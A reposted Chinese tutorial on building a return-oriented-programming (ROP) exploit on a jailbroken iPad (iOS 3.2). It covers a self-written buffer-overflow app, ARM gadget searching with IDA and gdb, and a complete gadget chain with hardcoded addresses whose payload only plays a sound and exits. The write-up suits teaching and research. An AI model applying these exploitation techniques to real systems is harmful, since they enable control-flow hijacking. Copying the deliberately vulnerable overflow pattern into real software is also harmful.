



# IPAD 下的漏洞利用 helloworld

> 原文：[`www.pediy.com/kssd/pediy12/127501.html`](https://www.pediy.com/kssd/pediy12/127501.html)

    近来看了些 ROP (Return-Oriented-Program)的文章。这种主要用于突破 NX 的 shellcode 编写方式很早就以 return-to-lib 为人熟知，近两年 ROP 的研究似乎开始倾向非 x86 非 windows 系统（比如路由器，或其他 RISC（ARM）下的\*nix 系统）。刚好最近手头有台 IPAD，就打算在它上面写个简单的 ROP。在网上找了半天，除了 jailbreakme2.0 的代码包外，就没有找到其他的 POC 可供参考了。以前没有接触过 Mac，这个代码包着实不知道如何下手分析（看 Readme 介绍好像是 make 过后会生成利用 pdf 解析漏洞的 pdf 文件，但 jailbreakme 并不是功能简单的 POC，它要下载安装 cydia，作为分析源并不理想，所以代码下载下来现在也没仔细读过）。  
    最后想还是依托自己熟悉的那点的知识搞个简单的例子上手吧。首先是操作环境的创建，除了 IPAD 和电脑还需要一个无线路由。IPAD 刚刚越过狱（IOS 3.2 ，虽然现在都 4.2 了，不过既然软件都能运行，何必升级呢，升了级没准再多些内存保护措施）。既然手头没有 safari 的 0day，jailbreakme 也分析不明白，就只能自己写个漏洞程序供利用了。在 windows 下就是一个包含如下语句的 vul.c  
代码:

```
…
strcpy(buf,payload);
…

```

  
    但在 IPAD 下面创建一个类似的程序就得折腾一番了。想写 IPAD 程序需要 MacOSX 操作系统和 Xcode 开发环境。在 PC 上把这两个东西装好绝对是体力活，那几天我把各种版本的 Mac OSX（10.6.X）在 win7 的 Vmware7 的虚拟机下来来回回装了不知道多少遍。直到安装成功时，我已经忘了我究竟装的是哪个论坛推出的版本了（光盘影像文件叫 iAntares\_v3.iso 对应 MaxOSX 10.6.5，Xcode 为 3.2.4，虽然仅支持 IOS3.2 和 IOS4.0，但足以了）。整个过程基本上是按照各种教程安装下来的，如果你也打算搭建个这样的环境，其中有几点需要特别注意： 

> **1.各种版本的教程连同他们的组合都要尝试，在 PC 下装 MacOSX 哪一个教程都不是 100%成功（和硬件相关性较大）。**  
> **2.建议用虚拟机，不然经不起折腾。Vmware7 是很好的选择，因为它支持 dmg 的映像文件，不必把 dmg 用 UltraISO 转换为 iso（Xcode 的安装映像很多时候就是 dmg 格式）。**  
> **3.安装前，鼠标和键盘的驱动选项一定要调整。安装完毕后也许不能正常启动（启动后定格在灰色苹果处或黑屏），将启动光盘映像换成 darwin300.iso 多半就可以了。**   

    安装完毕就可以用 Xcode 开始写代码了（还需要突破 Xcode 自身的代码签名过程，否则就需要 $99/年 的证书，因此还需要参考教程配置 Xcode 和操作系统环境）。“用 XCode 3.2.5 为越狱的 iPhone 免证书开发调试”，这篇文章参考价值很大，参看时需要改动个别版本号。至于 IPAD 的 helloword，就更好找了。自此开发的环境就设定好了，连线就能在 Xcode 里面编译并传送程序到 IPAD 里面了。  
   
  
  
  
  
  
  
   
    在触摸 press 时的事件处理函数如下  
代码:

```
\- (IBAction)btnClicked:(id) sender {
         foo();
         UIAlertView \*alert=\[\[UIAlertView alloc\] initWithTitle:@"Hello World!"
                                                                  message:@"sound"                   
                                                                  delegate:self
                                                      cancelButtonTitle:@"OK"
                                                      otherButtonTitles:nil\];
         \[alert show\];
         \[alert release\];
}

```

  
其中 foo 函数就是触发漏洞的函数了。它的代码很简单  
代码:

```
\[COLOR=#aa0d91\]void foo(){
         char buf\[4\]; 
         fulfill(buf);   

```

  
    用 fulfill 函数来填充这个缓冲区就能够实现最基本的返回点覆盖了。这里需要注意以下几点 arm 下的 IOS 与 x86 的 MacOSX 的区别：

> **1. NX/XN bit**  
> **x86 的 MacOSX 使用 NX 位（也就是 Intel 的 XD 位），arm 的 IOS 使用 XN(execute never)位。对于 MacOSX，仅对栈设置了该位，堆仍然是可执行的（RWX）。IOS 下则对所有页面使用了 XN 位，任何页面都不能具有 RWX 属性（IOS 就是一个单任务的桌面系统，不需要 JAVA 和 FLASH，因此能够做到这一点）。**  
> **2. ASLR**  
> **MacOSX 对加载的库文件（除了 dyld）进行地址随机化，堆栈和可执行映像都没有进行随机。IOS 连库文件都没有进行随机化，也就是说针对一个特定型号的固件，堆栈，可执行映像以及库的地址都是可以预测的。**  
> **3. CodeSign**  
> **在没有越狱的 IOS 上，二进制文件和库都是被签过名的，execve 函数执行前会首先执行 dyld 中的 loadCodeSignature 函数，这是与 MacOSX 的区别。但鉴于我的 IPAD 已近越过狱了，且并不进行什么涉及 execve 的操作，这部分就不关心了。**  

    更为详细的叙述，可以参看"Fun and Games with Mac OS X and IPhone Payloads"。作者就是曾在 Pwn2Own 上攻破 Safari 和 IE8 的 Charlie Miller。  
    直接注入代码很明显是不可能了，ROP 大显伸手的时候到了。ROP 的基本思想用 x86 更容易解释一些：当覆盖返回值或其他方式控制了栈时，返回时我们让 eip 指向类似如下的指令序列：XXX; ret 这样就执行了一个 XXX（也许就是简单的改变一个寄存器的值）操作，然后就 ret 了。ret 会从栈上取出下一条指令的地址，然后跳转过去，同样这次我们选取的指令仍为 XXX;ret 的格式，每次使用的指令最后都以 ret 结尾，利用栈来控制指令执行流程，这就是 ROP 了。  
    而现在我们面对的是 RISC 的 ARM 指令，就稍微有些区别了。ARM 体系下，包含 r0-r13,sp,lr,pc 等多个寄存器，没有 ret 指令，但指令指针 PC 是我们可以直接操作的，每条指令都是四字节（thumb 指令为两字节，thumb-2 里面四字节和两字节指令混合）。函数的参数传递规则是，前四个参数使用 r0-r3 传递，更多的参数才使用栈。通常函数返回使用 pop {r7,pc}或 bx lr 等方式（bx，b 类似 jmp 为跳转指令，但 bx 可以指定跳转区域究竟为 thumb 还是 arm 指令）。  
我们的目标是溢出后执行下面的操作  
代码:

```
 **AudioServicesPlaySystemSound(0x3ea);**

```

代码:

```
**\_exit;**

```

  
    也就是让该程序溢出后发出提示音后退出。接下来就需要在我们的程序空间搜索所需要的指令地址，填充栈，构成 ROP 了。这部分我用的方法很低效的（实在没有找到什么好的工具，以前仅用 msf 搜索过的跳板指令）。比如我需要将 r0 赋值为 0x3ea 作为函数参数，用了\_\_dyld\_stub\_binder 中的指令序列：  
代码:

```
**mov r12,r0**

```

代码:

```
**pop {r0,r1,r2,r3,r7,lr} ；从栈中取值给 r0 赋值**
**add sp,sp,#8**
**bx r12**

```

  
   
    为了搜索这条指令，我把 dyld 库从 IPAD 中复制到主机(使用 winscp，需要在 IPAD 上安装 openssh)，用 IDA 反汇编分析。但 IDA 似乎没有类似 OD 那种即时汇编指令为机器码的功能。因此只能查 ARM 手册自己将需要的汇编代码转为机器码字节了（这样才能搜索）。我把需要的汇编代码内联汇编写到 first\_ipad\_view 程序（也就是刚刚编写的存在漏洞的程序）中，然后用 gdb（使用 cydia 安装到 IPAD，一定要更新到最新版本 6.3.50，否则指令解析有问题。然后用**putty**通过 ssh 连接到 IPAD，这就是开篇无线路由器的用意。我本想用 Xcode 带的调试器调程序，但却总是提示**Program not being run**，另外用 gdbserver+IDA 或 IPhone\_server+IDA 也一直没能连接成功，所以只能 ssh+gdb 调了。记得要用 cydia 安装 cmd 以及其相关的各种指令包，比如 ps 命令）察看那些代码的机器码（很麻烦很笨~我也没办法，哪位有快速获得 ARM 指令机器码的方法麻烦告诉我吧~）。找到机器码序列后，在 IDA 中用 Alt+B 搜索，定位位置后再到 gdb 中察看改指令的地址。比如上述指令的地址就是 0x30cc05d0。  
    通过 IDA 分析只能搜索 dyld 库的指令，还有其他可执行映像中的指令搜索其实可以用 gdb 直接搜索。如下 gdb 代码能搜索 0x30247bc8 到 0x30247e14 地址中的机器码为 0x800fe8bd 的 ARM 指令。  
代码:

```
**set $count=0x30247bc8**

```

代码:

```
**while($count<0x30247e14)**
**if(\*((unsigned int \*)($count))==0x800fe8bd)**
**x/x ($count)**
**end**
**set $count=$count+4**
**end**

```

  
    过了很久，终于搜集到了需要的指令地址了。这里省略掉中间繁荣复杂纠结的调试和指令搜索过程，直接跳到结论部分。用于填充缓冲区的 fulfill 函数如下  
代码:

```
void fulfill(char \*buf){
         unsigned int shellcode\[32\];
         shellcode\[0\] =0x11112222;
         shellcode\[1\] =0x33334444;//r7
         shellcode\[2\] =0x30c1a858;//pc pop {r4,r5,r8,r9,pc}  位于 OSAtomicAdd64Barrier 中
         shellcode\[3\] =0x00002cc5;//r4
         shellcode\[4\] =0x00122690;//r5
         shellcode\[5\] =0x30794b8d;//r8->r0->r12->AudioServicesPlaySystemSound
         shellcode\[6\] =0x22443322;//r9
         shellcode\[7\] =0x30c1a850;//pc mov r0,r8;mov r1,r9;pop {r4,r5,r8,r9,pc} 
         shellcode\[8\] =0x000003ea;//r4
         shellcode\[9\] =0x00122690;//r5
         shellcode\[10\]=0x00002cc5;//r8
         shellcode\[11\]=0x34474dd7;//r9
         shellcode\[12\]=0x30cc05d0;//pc mov r12,r0;pop {r0,r1,r2,r3,r7,lr};add sp,sp,#8;bx r12
         shellcode\[13\]=0x000003ea;//r0
         shellcode\[14\]=0x00002cc5;//r1
         shellcode\[15\]=0x0013a8d0;//r2
         shellcode\[16\]=0x0013a8d0;//r3
         shellcode\[17\]=0x2fffeb88;//r7
         shellcode\[18\]=0x30c3d170;//lr \_exit  
         memcpy(buf,shellcode,32\*4);
}  

```

      
    在看这些指令前，先解释一下为什么不是在 foo 中直接使用 memcpy 来覆盖 buf。因为 Xcode 使用的 memcpy 和 strcpy 都会因此编译为 memcpy\_chk$stub 和 strcpy\_chk$stub，也就是包含边界检查的函数版本。那样溢出时不会发生的（边界检查越界就会终止运行）。使用 fulfill 函数中的 memcpy“看不到”foo 函数中的 buf 大小，没办法进行 check，就会使用\_dyld\_memcpy 和\_dyld\_strcpy 原始版本，因此能够产生可利用的漏洞。该过程和 Miller 的文章中实验类似，但他当时就直接在 foo 中进行了覆盖，估计他的 Xcode 版本较低没有这样的内存保护机制。接下来就解释一下 ROP 的工作过程了。用 putty 连接到 IPAD 的 ssh：

> **root# ps aux**  
> USER     PID %CPU %MEM      VSZ    RSS   TT  STAT STARTED      TIME COMMAND  
> mobile     817   0.0  3.8   349472   9492   ??  Ss   10:18PM   0:00.27 /var/mobile/Applications/5E16589D-24B9-413D-B3F3-608F02FA5F7E/first\_ipad\_view.app/first\_ipad\_view  
> **root#gdb**  
> GNU gdb 6.3.50.20050815-cvs (Sat Sep 19 05:37:57 UTC 2009)  
> Copyright 2004 Free Software Foundation, Inc.  
> GDB is free software, covered by the GNU General Public License, and you are  
> welcome to change it and/or distribute copies of it under certain conditions.  
> Type "show copying" to see the conditions.  
> There is absolutely no warranty for GDB.  Type "show warranty" for details.  
> This GDB was configured as "--host=arm-apple-darwin9 --target=".  
> **(gdb) attach 817**  
> Attaching to process 817.  
> Reading symbols for shared libraries . done  
> Reading symbols for shared libraries warning: Could not find object file   
> ............................................................. done  
> 0x30c16668 in mach\_msg\_trap ()  
> **(gdb)disassemble foo**  
> 0x00002864 <foo+0>:     push    {r7, lr}  
> 0x00002866 <foo+2>:     add     r7, sp, #0  
> 0x00002868 <foo+4>:     sub     sp, #4  
> 0x0000286a <foo+6>:     mov     r3, sp  
> 0x0000286c <foo+8>:     mov     r0, r3  
> 0x0000286e <foo+10>:    bl      0x277c <fulfill>  
> 0x00002872 <foo+14>:    sub.w   sp, r7, #0      ; 0x0  
> 0x00002876 <foo+18>:    pop     {r7, pc}  
> **执行到<foo+18>后查看堆栈**  
> **(gdb) x/20x $sp**  
> 0x2fffeb60:     0x33334444      0x30c1a858      0x00002cc5      0x00122690  
> 0x2fffeb70:     0x30794b8d      0x22443322      0x30c1a850      0x000003ea  
> 0x2fffeb80:     0x00122690      0x00002cc5      0x34474dd7      0x30cc05d0  
> 0x2fffeb90:     0x000003ea      0x00002cc5      0x0013a8d0      0x0013a8d0  
> 0x2fffeba0:     0x2fffeb88      0x30c3d170      0x0000345c      0x3852c7ec  

    Shellcode\[0\]用于覆盖 buf，shellcode\[1\]覆盖了栈中的 r7（类似 ebp)。0x2876 就是 foo 返回的地方。特别需要解释的是 shellcode\[5\] =0x30794b8d，这个数据会覆盖 r8，然后赋值给 r0，最后传给 r12，然后通过 bx r12 转过去，这个地址对应 AudioServicesPlaySystemSound，该函数实际地址为 0x30794b8c，但直接填写该地址却总是产生 SIGSYS 信号(非法指令执行)。原因就是该函数为 thumb 指令，因此跳转时必须要把指令地址的最低位设置为 1（bx 通过这一位来区分指令集），所以函数地址就加了一。察看 AudioServicesPlaySystemSound 函数开始字节为

> **(gdb) disassemble AudioServicesPlaySystemSound**  
> Dump of assembler code for function AudioServicesPlaySystemSound:  
> 0x30794b8c <AudioServicesPlaySystemSound+0>:    push    {r4, r7, lr}  

    可判断其返回时因该是跳转到 lr，所以要通过 pop 将\_exit 地址存到 lr 中，Audio 函数执行后就会转到\_exit 中。自此，一个没有字符限制的 IPhoneOS 下的简单的栈溢出的 ROP 就完成了。复杂操作（网络通信传送文件等）就需要更多指令序列来完成了。ROP 本身并不难领会，但为了实现这个过程，环境和工具的取得也很令人头疼~本文充其量也就是抛砖引玉，希望哪天能看到有人发个 jailbreakme 的分析~